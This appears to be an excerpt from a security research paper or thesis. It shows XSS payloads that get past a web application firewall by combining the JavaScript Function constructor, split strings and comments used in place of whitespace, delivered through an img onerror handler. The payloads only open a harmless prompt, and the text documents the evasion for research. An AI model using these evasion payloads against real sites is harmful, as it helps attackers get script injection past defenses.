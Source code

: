 \begin{lstlisting}[style=basicStyle, language=Python]
[]['constructor']['constructor'](`var s = 'secret'; promp` + `t(s, s)`)()
\end{lstlisting}

When evaluating this payload using the test code snipped mentioned under Section~\ref{sec:evaluation}, it turned out to be invalid. After parsing and injecting the payload into the HTML page according to the following statements:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
const injection = 
  JSON.parse("{\"body\":\"[]['constructor']['constructor'](`var s = 'secret'; promp` + `t(s, s)`)()\"}")

document.getElementById('div1').insertAdjacentHTML('afterbegin', `<img src=0 onerror=${injection.body}>`)
\end{lstlisting}

the resulting HTML code did not execute the given statements inside the payload as expected. It resulted in the following HTML code:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<div id="div1">
	<img src="0" onerror="[]['constructor']['constructor'](`var" s="secret" ;="" promp`="" +="" `t(s,="" s)`)()="">
</div>
\end{lstlisting}

In order to avoid the splitting of statements synchronous to whitespaces in the payload string, JavaScript comment interference was used. 
According to the JavaScript comment substitution technique stated under Section~\ref{sec:jscommentsub}, all whitespaces were replaced by JavaScript comments, creating the payload:

\begin{lstlisting}[style=basicStyle, language=Python, caption=function constructor bypass payload using square bracket notation]
[]['constructor']['constructor'](`var/**/s/**/=/**/'secret';/**/promp`/**/+/**/`t(s,/**/s)`)()
\end{lstlisting}

Similarly, using the dot-syntax instead of bracket-access, the following payload bypasses the firewall:

\begin{lstlisting}[style=basicStyle, caption=function constructor bypass payload using dot notation]
[].constructor.constructor(`var/**/s/**/=/**/'secret';/**/promp`/**/+/**/`t(s,/**/s)`)()
\end{lstlisting}

